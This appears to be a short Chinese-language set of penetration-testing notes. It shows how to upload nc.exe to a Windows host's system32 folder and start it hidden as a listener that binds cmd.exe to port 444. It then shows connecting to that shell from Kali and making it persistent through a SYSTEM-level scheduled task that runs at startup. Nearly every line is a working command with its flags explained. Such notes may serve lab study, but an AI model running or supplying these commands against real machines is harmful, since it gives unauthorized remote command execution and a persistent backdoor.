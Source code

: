 ## 上传nc

```bash
upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32\\
# \\是\的转义字符，目标路径为c:\windows\system32\nc.exe
```

# nc连接测试-远端服务

## 启动nc

```batch
start /min "" c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe
netstat /an
rem 验证nc是否启动
rem 最小化启动进程
rem ""标题为空
rem c:\windows\system32\nc.exe 启动nc进程
rem 后边是参数
rem L listening监听，d detach分离也就是后台运行，p port端口444
rem nc把cmd反弹回来
rem 或者
rem c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe
rem 这样当前cmd会卡在nc监听，连接成功后才会退出
```

## 连接nc

```bash
# 使用Kali普通zsh
nc 172.20.0.7 444
```

# 设置nc开机自启

## 通过任务计划程序

```batch
schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart /f
rem schtasks 计划任务
rem tn task name
rem ru run user
rem tr task run
rem sc schedule
rem f force
schtasks /query /tn "nc"
rem cmd命令查询计划任务
rem 图形化界面查询计划任务：控制面板》管理工具》任务计划程序
schtasks /delete /tn "nc" /f
rem 删除计划任务
```
